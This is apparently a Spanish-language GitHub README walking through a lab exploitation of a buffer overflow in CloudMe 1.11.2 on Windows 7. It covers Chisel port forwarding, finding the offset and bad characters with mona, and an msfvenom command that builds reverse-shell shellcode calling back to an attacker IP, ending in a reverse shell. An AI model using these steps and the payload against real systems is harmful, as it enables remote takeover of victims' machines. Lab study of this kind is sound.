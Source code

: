 # Buffer Overflow Cloudme 1.11.2

Tutorial de buffer overflow en Windows de 32 bits con el programa Cloudme 1.11.2. Se hace uso de maquinas virtuales, una máquina con Parrot OS (máquina atacante) y otra con Windows 7 (máquina víctima).

Para usar Cludme es necesario crearse una cuenta 

![cloudme](./img/cloudme_reg.png)

Con Immunity Debugger y con la utilidad mona vamos a determinar el offset y direcciones de memoria para ejecutar nuestro shell code. 

Cloudme usa el puerto 8888 pero no está a la vista desde la máquina atacante para poder conectarnos haremos uso de la herramienta Chisel, que nos permite compartir puertos internos de la máquina victima a la máquina atacante. Hay que descargar Chisel según la versión de OS.

Una vez descargado Chisel, desde la máquina atacante ejecutar ``` ./chisel server -p puerto --reverse ```

![chisel_linux](./img/chisel_linux.png)

Y desde la máquina víctima 
```chisel.exe client IPMaquinaAtacante:puerto R:8888:127.0.0.1:8888 ```

![chisel_windows](./img/chisel_windows.png)

Para comprobar que efectivamente se nos ha compartido el puerto con el comandos ```lsof -i:8888 ```

![check_port](./img/check_port.png)

Con netcat podemos conectarnos al servicio

![nc_send_data](./img/nc_send_data.png)

Al enviar datos se puede acontecer el Buffer Overflow para obtener el offset con pattern create crearemos un patrón que será enviado y con Immunity Debugger obtendremos la dirección de la memoría del EIP

```/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2700 ```

![pattern_buffer](./img/pattern_buffer.png)

![pattern_buffer](./img/pattern_buffer_2.png)

En la máquina victima con Immunity Debugger (ejecutar como administrador) nos sincronizamos con Cloudme, se pausará el programa darle al botón de play para que se reanude el flujo del programa.

Se determina el offset con la dirección del EIP que se obtuvo en Immunity Debugger

con ``` pattern_offset -q dirección ``` se determina el offset

![offset](./img/pattern_offset.png)

En este caso el offset es de 1052.

Comprobamos que sea el offset

![buffer_check](./img/buffer_check.png)

![eip_check](./img/eip_check.png)

Ahora se determina los badchars (carácteres que el programa no puede interpretar) con la utildad mona.py se facilita esta tarea. Para ello se debe copiar en ``` C:\Program Files\Immunity Inc\Immunity Debugger\Libs ```

Con el comando ``` !mona config -set workingfolder C:\Users\Usuario\Desktop\%p ``` se crea un directorio de trabajo 

![mona_folder](./img/mona_working_folder.png)

con ``` !mona bytearray ``` se generan dos archivo, uno de ellos bytearray.txt, que contiene los carácteres imprimibles.

![mona_bytearray](./img/mona_array.png)

Transferir el archivo bytearray.txt a la máquina atacante y añadir los carácteres en el script.

![badchards_script](./img/badchars.png)


Ejecutar el script y desde Immunity Debugger en el EIP se tiene una dirección, se ejecuta 
``` !mona compare -f C:\Users\Users\Desktop\Cloudme\bytearray.bin -a direccion ``` para obtener un badchar)

![badchars_esp](./img/badchars_esp.png)

![badchars_compare](./img/badchars_compare.png)
    
En este caso no hay badchars por lo que se puede generar directamente el shell code

``` 
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.249.128 LPORT=443 -a x86 --platform windows -e x86/shikata_ga_nai -f c
```

![sheell_code](./img/shell_code.png)


Para que se logre interpretar el shell code se debe dar un salto al ESP, se busca la dirección a jmp ESP. Nasm_shell nos ayuda a obtener las direcciónes de instrucciones a bajo nivel en este caso la de jmp ESP.

```/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb```

![jmp_ESP](./img/jmp_esp.png)

Con ```!mona modules ``` se muestran los módulos de SLMail, se busca alguno que que tenga Rebase, Safe, ASLR, NXCompat en "False". Se escoge qsqlite.dll

![mona_modules](./img/mona_modules.png)


Se busca la dirección de jmp ESP en el módulo con ```
!mona find -s "\xff\xe4" -m qsqlite.dll ``` y se comprueba la dirreción a jmp ESP

![find_jmp](./img/esp_addr.png)

Se comprueba que la dirreción apunte a jmp ESP.
En el script de python se añade la dirección de jmp ESP pero al ser 32 bits se debe de estar en Little Endian. Para convertir a Little Endian se separa la dirección en pares y se inverte el orden ``` 6D619117 ->  1791616D ```

Y finalmente se añade NOPs ```\x90``` al payload y se ejecuta el script para obtener una reverse shell


![reverse_shell](./img/bof.png)




